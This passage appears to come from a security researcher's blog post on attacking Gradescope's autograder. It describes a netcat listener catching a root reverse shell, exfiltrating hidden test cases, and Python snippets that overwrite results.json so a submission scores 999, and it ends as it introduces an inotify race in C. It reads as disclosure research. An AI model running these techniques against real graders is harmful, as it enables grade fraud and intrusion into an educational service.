 We also need to run a control-and-command (C2) server available on `C2_HOST_IP:C2_PORT`, which can be easily done with a cheap Digital Ocean droplet. Simply run the command `nc -lk C2_PORT -vvv` using a port such as `4444`.

{{< figure src="images/gradescope-root-reverse-shell.png" alt="Gradescope Docker root reverse shell" position="center" style="border-radius: 8px;" caption="Gradescope Docker root reverse shell" captionPosition="center" >}}

This also allows us to exfiltrate test cases that would otherwise be hidden (we know these are hidden test cases due to the presence of the `visibility` decorator controlling access before the assignment due date):

{{< figure src="images/gradescope-test-exfil.png" alt="Gradescope hidden test case exfiltration" position="center" style="border-radius: 8px;" caption="Gradescope hidden test case exfiltration" captionPosition="center" >}}

## Editing autograder results

Since the client code's output file `/autograder/results/results.json` is treated as a trusted source of truth, we can modify our own grades as long as our write to that file takes effect after the client code's final write. In particular, we want to write the JSON string `{"score": 999.0}` to the file.

Hanbang Wang's [2019 blog post](https://www.seas.upenn.edu/~hanbangw/blog/hack-gs/) contained a proof-of-concept that appends a line to `/autograder/run_autograder` to write the above JSON string into the results JSON file. The idea is that because shell scripts execute lines immediately after reading them (rather than reading the entire script into memory before execution), appending to the shell script controlling the client autograder allows us to make changes even after the client exits.

To do this for our Python calculator, we simply add the following lines to our `eval` function:

```python
jout = {'"score"': 999.0}
with open("/autograder/run_autograder", "a") as exout:
    exout.write(f"\necho {json.dumps(jout)} > /autograder/results/results.json")
```

When submitting, this gives me 999% on the assignment:

{{< figure src="images/gradescope-score-change.png" alt="Gradescope score change" position="center" style="border-radius: 8px;" caption="Gradescope score change" captionPosition="center" >}}

A simpler variation is to just directly write to `results.json` from student code, then attempt to close the client code's file descriptor for that file:

```python
jout = {"score": 999.0}
with open("/autograder/results/results.json", "w") as exout:
    exout.write(json.dumps(jout))

os.closerange(0, 10)
exit(0)
```

This works and gives me 999% too.

However, if neither of these paths were available, we could still perform the attack by attempting to write to `results.json` between when the autograder client code exits and when `harness.py` reads `results.json`. It's possible, but difficult, to do this by simply polling the `results.json` file for the client code's closing of that file. However, to avoid having to do such a timing attack, we can spawn a subprocess that uses `inotify` Linux kernel events to watch writes to the `results.json` file -- writing our own values to that file after an autograder write. To do this, here's some C code that sets up the watcher and the associated action:
